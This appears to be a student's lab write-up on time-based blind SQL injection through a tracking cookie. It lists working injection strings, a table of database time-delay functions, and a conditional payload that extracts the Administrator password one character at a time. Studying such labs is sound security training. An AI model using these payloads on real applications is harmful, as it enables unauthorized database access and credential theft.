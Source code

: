 


Lab #13 - Blind SQL Injection with time delays

Vulnerable parameter - tracking cookie

End Goal:
- to prove that the field is vulnerable to blind SQLi (time based)

Analysis:

select tracking-id from tracking-table where trackingid='OVmpehhTPt2iCL19'|| (SELECT sleep(10))--';

`' || (SELECT sleep(10))--   this didnt work
`' || (SELECT pg_sleep(10))-- `




To create time delay


Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
Oracle 	`dbms_pipe.receive_message(('a'),10)`
Microsoft 	`WAITFOR DELAY '0:0:10'`
PostgreSQL 	`SELECT pg_sleep(10)`
MySQL 	`SELECT SLEEP(10) `


`'; IF (1=2) WAITFOR DELAY '0:0:10'--`
`'; IF (1=1) WAITFOR DELAY '0:0:10'--`

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`